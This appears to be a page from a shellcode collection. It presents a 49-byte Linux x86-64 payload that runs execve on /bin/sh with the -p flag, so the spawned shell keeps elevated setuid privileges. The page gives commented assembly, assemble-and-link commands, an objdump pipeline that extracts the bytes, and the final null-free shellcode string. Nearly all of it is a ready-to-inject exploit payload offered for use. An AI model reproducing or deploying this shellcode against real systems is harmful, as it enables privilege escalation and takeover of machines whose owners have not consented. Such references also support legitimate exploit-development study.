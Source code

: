 ```yaml
---
layout: default
title: execve("/bin/sh", ["/bin/sh", "-p"], 0) - Spawn shell maintaining privileges
permalink: /shellcode/asm-10.html
os: Linux
arch: Intel x86-64
length: 49
---
```


# {{ page.title }}

---
**OS:** {{ page.os }}

**Architecture:** {{ page.arch }}

**Length:** {{ page.length }} bytes

---

## Assembly

```nasm
section .text
global _start

_start:
	xor rdx, rdx			; null rdx (0)

	push rdx			; push null terminator
	mov rax, 0x68732f2f6e69622f	; move "/bin//sh" into rax
	push rax			; push "/bin//sh"
	mov rdi, rsp			; move pointer to "/bin//sh" into rdi

	xor rax, rax			; null out rax
	push rax			; null terminator
	mov word [rsp-2], 0x702d	; move "-p" into rsp - 2
	sub rsp, 2			; subtract 2 from rsp
	mov rbx, rsp			; move pointer to "-p" into rbx

	push rdx			; push null terminator
	push rbx			; push pointer to "-p"
	push rdi			; push pointer to "/bin//sh"

	mov rsi, rsp			; move pointer to array {"/bin//sh", "-p"} into rsi

	xor rax, rax			; null rax (0)
	mov al, 0x3b			; move execve syscall number into al (rax)
	syscall				; call execve
```

## Compilation and Linking

```bash
# Assemble
nasm -f elf64 -o code.o code.asm

# Link
ld -m elf_x86_64 -s -o code code.o

# Extract Shellcode
printf '\\x' && objdump -d code | grep "^ " | cut -f2 | tr -d ' ' | tr -d '\n' | sed 's/.\{2\}/&\\x /g'| head -c-3 | tr -d ' ' && echo ' '
```

## Shellcode

```
\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x50\x48\x89\xe7\x48\x31\xc0\x50\x66\xc7\x44\x24\xfe\x2d\x70\x48\x83\xec\x02\x48\x89\xe3\x52\x53\x57\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05
```